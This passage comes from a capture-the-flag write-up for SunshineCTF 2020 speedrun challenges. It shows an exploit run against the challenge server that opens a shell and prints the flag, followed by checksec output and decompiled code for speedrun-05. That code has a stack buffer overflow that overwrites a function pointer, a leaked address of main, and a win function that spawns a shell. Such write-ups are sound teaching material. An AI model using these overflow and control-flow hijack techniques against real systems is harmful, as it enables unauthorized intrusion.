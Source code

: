 > That `56` was kinda sloppy of me, it should have been `(0x48 - 0x10)`.  Yes,
> still `56`, but with some meaning.

Output:

```bash  
# ./exploit_04.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-04/chall_04'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to chal.2020.sunshinectf.org on port 30004: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_04) gid=1000(chall_04) groups=1000(chall_04)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8440 Nov  7 07:49 chall_04  
-rw-r----- 1 root chall_04   39 Nov  7 08:51 flag.txt  
$ cat flag.txt  
sun{critical-acclaim-96cfde3d068e77bf}  
```

## speedrun-05

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
```

No stack canary, assume BOF, however like the previous not necessary.  The
rest of the mitigations are in place.  For any type of ROP we'll need a leak.

### Decompile with Ghidra

```c  
void vuln(void)  
{  
 char local_48 [56];  
 code *local_10;  
  
 printf("Yes I\'m going to win: %p\n",main);  
 fgets(local_48,100,stdin);  
 (*local_10)();  
 return;  
}

void win(void)  
{  
 system("/bin/sh");  
 return;  
}  
```
